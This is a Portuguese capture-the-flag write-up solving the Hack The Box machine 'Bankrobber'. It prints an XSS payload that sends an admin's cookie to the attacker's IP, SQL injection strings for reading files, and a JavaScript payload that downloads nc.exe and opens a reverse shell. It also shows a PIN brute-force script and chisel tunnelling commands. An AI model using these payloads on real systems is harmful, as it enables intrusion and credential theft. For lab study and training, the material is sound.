










1. [Resolução da máquina **Bankrobber**](#resolução-da-máquina-bankrobber) 1. [Máquina INSANE (hackthebox.com)](#máquina-insane-hacktheboxcom) 2. [by **_JavaliMZ_** - 13/09/2021](#by-javalimz---13092021)
2. [Enumeração](#enumeração)
    1. [Nmap](#nmap)
    2. [WebSite](#website)
    3. [SQLi](#sqli)
    4. [note.txt](#notetxt)
    5. [SQLi into RCE](#sqli-into-rce)
    6. [Visualização do ficheiro backdoorchecker.php](#visualização-do-ficheiro-backdoorcheckerphp)
3. [PrivEsc](#privesc)


# Resolução da máquina **Bankrobber**

#### Máquina INSANE (hackthebox.com)

#### by **_JavaliMZ_** - 13/09/2021

---

---

Esta máquina é uma boa máquina para ter noção de como pode uma sequência de falhas levar a comprometer uma máquina. Assim como um examplo que se pode encontrar em BugBounty. Mas existe um Senão!! **A MÁQUINA É EXTRAMAMENTE INSTÁVEL!**. Tive bastante dificuldade em replicar o que se vê na net para resolver a máquina!! Mas Percebi muitas coisinhas que irei partilhar pelo caminho.

# Enumeração

## Nmap

Assim como em todas as máquinas, a fase inicial é a fase de enumeração. E nesta fase, enumeramos sempre em primeiro lugar as portas activas da máquina... São os pontos de entrada, por isso temos obrigação de saber todos os pontos de entrada para só depois ver que tipo de falhas poderá haver.




A primeira vista, nada de extraordinário. Mas mesmo assim á pontos importantes a realçar.

-   Existe um servidor http
-   Existe um servidor https (quando aberto, parece identico ao http... e não existe nada de mais. Por isso, irei omitir para o resto deste relatório)
-   Existe um Samba server. (Não nos vai ser de nenhuma utilidade. Mas numa situação real, é perciso fazer testes nele também)
-   Existe um servidor mysql-MariaDB (A partir dai sempre será necessário testar SQLi pelo site a fora)

## WebSite



Esta página é muito em chuto. Não tem grande coisa, o que é bom para focar nos problemas, e não andar a procura de agulhas. Existe uma secção de login e outra de registo.

A primeira coisa a tentar sempre é logins por defeito... admin:admin, admin:password... Nada funciona, nem se vê mensagens de erro que nos ajude a enumerar usuários ou outras coisas (E ainda bem lol). SQLi ai também não funciona, pelo menos as coisas básicas.

Agora o proximo passo é criar um usuário e vasculhar o Site.

Tentei criar o usuário admin, e aí apareceu um erro:


Bom, aí já não está bom... esta mensagem de erro ajuda-nos a enumerar possíveis usuários. Parece que o usuário "admin" existe...

Criei então o usuário javali:javali



E com esse novo usuário, foi possível fazer o login.


Outra página muito em chuto, o que nos ajuda a saber por que caminho andar... os 2 primeiros campos estão limitados para se poder introduzir apenas números. Alterando isso, logo do navegador ou por burpsuite nada muda. O alvo é mesmo o campo de comentário.

Cada vez que se carregue em "transfere coin", aparece um alerta que nos diz que a nossa petição irá se avaliado por um administrador...



Já que, aparentemente, esta máquina está a dizer que um administrator irá abrir a transação dentro de instantes, poderá significar ques existe alguma tarefa automática que simula um administrador a abrir a nossa mensagem. Vamos primeiro tratar de identificar se existe uma falha conhecida como XSS (Cross-site scripting), introduzindo no campo de comentário o seguinte código:

```html
<script src="http://10.10.14.9/test.js"></script>
```

Esse código faz com que, se existir a tal vulnerabilidade, o browser por onde o administrador simulado abre a transação, execute esse código javascript, que por sua vez tenta adquirir um outro ficheiro denominado test.js localizado em http://10.10.14.9/. É claro que para verificar se o código é executado, é necessário disponibilizar este serviço http:

```powershell
sudo python3 -m http.server 80
#>  10.10.10.154 - - [13/Sep/2021 12:12:58] code 404, message File not found
#>  10.10.10.154 - - [13/Sep/2021 12:12:58] "GET /test.js HTTP/1.1" 404 -
```

Aí está!! Um tentativa de GET. Confirma-se o XSS. Sendo assim, podemos criar um ficheiro.js para que, quando o browser do administrador que ler a transação fizer o download de o novo ficheiro.js malicioso, esse ficheiro será também executado pelo browser. **NOTA: É importante referir que o browser não consegue executar código do systema. O seu escopo é apenas e só no browser**

> ficheiro: cookie.js

```javascript
var request = new XMLHttpRequest()
request.open('GET', 'http://10.10.14.9/test.js?cookie=' + document.cookie, true)
request.send()
```


Na imagem, é possível ver o cookie de um usuário (supostamente administrador pelo que o alerta nos informou). Esse cookie está "encoded". Primeiro podemos reverter o "urlencoded" com ajuda do php em modo interativo. O resultado é o seguinte:

```powershell
username=YWRtaW4=; password=SG9wZWxlc3Nyb21hbnRpYw==; id=1
```

Isto não é o username e password em texto claro. Mas pelo formato, é facilmente identificável. Vamos tentar descodificar:


Com essas credenciais, podemos efetuar logout, e login com as credenciais do usuário "admin"



Esta página está também bastante cru, e já dá para planear coisas.

Existem dois campos, 1 que diz ID, e outro que diz Command onde no seu comentário diz que podemos rodar um dir com quaisquer argumentos... Isto já cheira a frito...

## SQLi

Vamos abordar por enquanto apenas o campo ID.

Se pusermos um número, podemos ver usuários:


Com já sabemos que existe provavelmente uma base de dados em mysql (NMAP em força), vamos tentar coisas sombrias!


HUUUH xD A aspa simples fatal para a aplicação lol. Isto significa que é vulnerável a SQL Injection.

Agora a simples injeção básica do "or 1=1-- -"

```sql
1' or 1=1-- -
```



Ok. Ai estão todos os usuários. E ainda temos sorte, o php/html está feito para criar linhas para incluir todos os resultado. Não é necessário concatenar nem coisa parecida.

Poderia fazer um script em python para simular uma shell, mas como já fiz na máquina **_FALAFEL_**, vou direto ao assunto. Além disso, para esta máquina, já há alguns scripts e vai haver mais um ainda.

O Próximo passo é enumerar a base de dados:

Perceber quantas colunas são

```sql
3' order by 100-- -  # Ther is a problem with your SQL syntax
3' order by 10-- -   # Ther is a problem with your SQL syntax
3' order by 4-- -    # Ther is a problem with your SQL syntax
3' order by 3-- -    # 3 javali
```


Perceber quais as colunas cujo resultado aparecem na tela:

```sql
3' union select 111,222,333-- -
```


Daí para a frente, podemos injectar código para que apareca resultado no 1º ou 2º campo (111,222).

Não me vou atardar mais com SQLi, posso dizer que na base de dados não se vai aprender grande coisa. Mas o mysql tem a possibilidade de ler arquivos do sistema, e esta função não está bloqueada. Vamos tentar ler um ficheiro que temos a certeza que irá existir para testar:


Isto aqui não é nada comodo... Não quiz fazer um script em python, mas ainda há uma outra forma de ver isso de uma forma mais simples. Através de um curl. Com o google chrome, é possível copiar uma petição em formato Curl:


Voltaremos mais tarde a este assunto, porque ainda faltam dados acerca deste puzzle!

## note.txt

Na página de administrador existe uma hiperligação para um note.txt


Nessas notas podemos ver que o servidor Web é feito com Xampp, e fala novamente no localhost...

## SQLi into RCE

Neste ponto temos de fazer um break e expor as informações que temos:

-   Temos a possibilidade de fazer com que o usuário "admin" abra um ficheiro.js disponível no nosso servidor http, através de um XSS na página de um usuário não privilegiado logado.

-   Temos ainda a possibilidade de ler arquivos do sistema com SQLi (no primeiro campo)na página Web do usuário "admin"

-   Nesta mesma página, temos provavelmente a possibilidade de executar comandos (no segundo campo) mas apenas a partir da máquina localhost...

Aí é que surge a magia! E se, através de um XSS, o "admin" simulado executar um request a partir da sua própria máquina (esperemos que esteja no localhost da máquina 10.10.10.154) para que executa um comando no tal segundo campo da sua própria pagina admin?! Cuidado AIAI xD Mas ainda falta uma coisinha. Não temos a possibilidade de saber como funciona o tal segundo campo (onde se pode executar um dir). Bem não sabemos ainda...

Sabemos que:

-   Estamos perante um Xampp
-   Se tentarmos enviar um dir, podemos ver o request, ou através de burpsuite, ou logo pelo navegador:


Agora sim temos um pouco de tudo. O ficheiro que nos interessa ver para ver que tipo de filtros existe é o backdoorchecker.php. Que por sua vez se encontra provavelmente em C:\xampp\htdocs\admin\backdoorchecker.php por ser a path de instalação padrão (C:\xampp\htdocs) e o resto vê-se na Request URL da própria petição que fizemos

### Visualização do ficheiro backdoorchecker.php

Este ficheiro é um php o que pode trazer alguns problemas, pois ao ser transferido pode ser interpretado antes de nós podemos visualizar o código fonte. Então para se ver tudo, existe em SQL uma função para converter uma string em base64. A petição foi feita em curl para não ficar tudo deformado, e depois é só descodificá-lo:





Vemos que não podemos utilizar o segunte conjunto:

> $bad = array('$(','&')

Ou seja, o nosso comando não pode incluir "$(" nem "&", caso incluir, será barrado pelo código php. Posto isso:

-   Preparar um nc em escuta

-   Criar um rce.js contendo o seguinte:

```javascript
var request = new XMLHttpRequest()
params =
    'cmd=dir|powershell -c "IWR -Uri http://10.10.14.9/nc.exe -OutFile %temp%\\nc.exe"; %temp%\\nc.exe -e cmd 10.10.14.9 443'
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true)
request.setRequestHeader('content-type', 'application/x-www-form-urlencoded')
request.send(params)
```

-   Obrigar o user "admin" simulado a executar esse javascript:


# PrivEsc

Depois de um café, vamos enumerar um pouco a máquina.

```powershell
netstat -ano
```


Existe uma porta nova, que não existia no NMAP, por estar bloqueado a nível de firewall para se poder operar apenas por localhost. Porta 910!

```powershell
tasklist
```


Através do PID, verificamos que o programa que está a ocupar esta porta é o bankv2.exe.

poderiamos tratar de fazer o download do programa para verificar o que faz e tratar de encontrar um possível BufferOverFlow, mas em primeiro lugar, quero saber o que está a fazer neste momento...

Para ser mais comodo, vou fazer um PortForwarding desta porta 910 para a minha porta 910 da minha máquiina kali.

Para isso, irei utilizar o chisel do jpillora (https://github.com/jpillora/chisel/releases)

Enviar o chisel windows para a máquina alvo, e guarda a versão linux na minha máquina

```powershell
wget https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_linux_amd64.gz
wget https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_windows_amd64.gz

mv chisel_1.7.6_linux_amd64.gz chisel.elf.gz
mv chisel_1.7.6_windows_amd64.gz chisel.exe.gz

gunzip *.gz

sudo su
chisel.elf server --reverse -p 8008

# Target Machine
certutil -urlcache -f http://10.10.14.19/chisel.exe
chisel.exe client 10.10.14.9:8008 R:910:127.0.0.1:910
```



A partir de agora, a porta 910 da minha máquina local kali é igual á da máquina alvo.

Se usarmos um simples nc, dá para ver o que se lá passa:


Está protegido por um PIN. Como está na nossa máquina, e sempre que tento um PIN, o programa apenas se fecha e está pronto para outra, vou fazer brute force nele!!

```python
import socket
import sys
from pwn import log


def tryPin(pin, p1):
	p1.status(f"Testando com PIN {pin.strip()}")
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("127.0.0.1",910))
	s.recv(4098)
	s.send(bytes(pin.encode()))
	msg = s.recv(4098).decode()

	if not "Access denied" in msg:
		p1.success(f"PIN encontrado. O PIN correcto é o: {pin.strip()}")
		sys.exit(0)


def getListOfPins():
	pins = []
	for first_num in range(0,10):
		for second_num in range(0,10):
			for third_num in range(0,10):
				for fourth_num in range(0,10):
					pin = str(first_num) + str(second_num) + str(third_num) + str(fourth_num)
					pins.append(pin + "\n")
	return pins


def main():
	p1 = log.progress("Brute Force")
	pins = getListOfPins()
	for pin in pins:
		tryPin(pin, p1)


main()
```

Com esse simples script, vou testando todos os PINs até que me reporta qual é:


A partir daí, deu para perceber que, em vez de colocar um valor de transferência, se puser montes de caracteres, estou a reescrever a parte que dizia "[$] Executing e-coin transfer tool: C:\Users\admin\Documents\transfer.exe". E visto que este caminho é de "admin", pode-se assumir que essa ferramenta será executada com privilégios de administrador... Não esquecer de preparar o nc em modo de escuta.


Dá para tentar reescrever o commando que é suposto aparecer ali, para ver o que acontece. Depois de perceber quantos caracteres são precisos para reescrever o comando (32 caracteres), é só concatenar a essas 32 caracteres, um comando nosso:



Isto não é bem um BufferOverFlow, mas a base é a mesma. Reescrever uma instrução.


As flags estão sempre no mesmo sítio...

```powershell
type C:\Users\Cortin\Desktop\user.txt
#>  f635346600876a43441cf1..........
type C:\Users\admin\Desktop\root.txt
#>  aa65d8e6216585ea636eb0..........
```
